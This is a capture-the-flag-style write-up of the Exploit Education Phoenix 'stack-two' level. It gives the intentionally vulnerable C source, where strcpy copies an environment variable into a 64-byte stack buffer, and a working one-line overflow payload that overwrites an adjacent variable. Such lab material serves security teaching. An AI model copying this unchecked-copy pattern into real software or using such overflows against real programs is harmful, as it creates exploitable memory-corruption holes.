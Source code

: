 ## Stack Two
Stack Two takes a look at environment variables, and how they can be set.

## Source Code
```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

## Challenge
The aim is to change the contents of the changeme variable to 0x0d0a090a

## Solution
Same as `stack-one`, only this time our input is passed as an environment variable.

### The Plan
Set the environment variable `ExploitEducation` to a string overflowing `locals.buffer` and writing the `little-endian` representation of `0x0d0a090a` to `locals.changeme`.

### Breaking it
```console
user@phoenix-amd64:~$ ExploitEducation=$(python -c "print 'a'*64+'\x0a\x09\x0a\x0d'") /opt/phoenix/amd64/stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
🥳
